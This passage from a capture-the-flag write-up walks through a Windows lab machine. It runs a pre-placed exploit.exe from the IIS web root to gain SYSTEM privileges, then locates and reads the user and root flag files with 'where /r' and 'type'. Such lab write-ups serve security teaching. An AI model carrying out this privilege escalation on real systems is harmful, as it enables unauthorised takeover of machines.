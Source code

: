 We can find exploit.exe file using where command and run it to escalate privilege!

```bash
where /r C:\ exploit.exe
c:\inetpub\wwwroot>exploit.exe
whoami
nt authority\system
```

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-29 00-47-23.png" alt=""><figcaption></figcaption></figure>

</div>

Starting to root folder (C:\\) we can find quickly flags, using where command in recusive mode (/r):

```
where /r C:\ user.txt
C:\Users\babis\Desktop\user.txt
```

and read user.txt flag using type command (equivalent to cat on \*nix):

```
type C:\Users\babis\Desktop\user.txt
```

<details><summary>🚩 Flag 1 (user.txt)</summary></details>

### Task 4 - Find root flag

After that, we do the same thing for root.txt flag

```bash
where /r C:\ root.txt
C:\Users\Administrator\Desktop\root.txt
```

```bash
type C:\Users\Administrator\Desktop\root.txt
```

<details><summary>🚩 Flag 2 (root.txt)</summary></details>
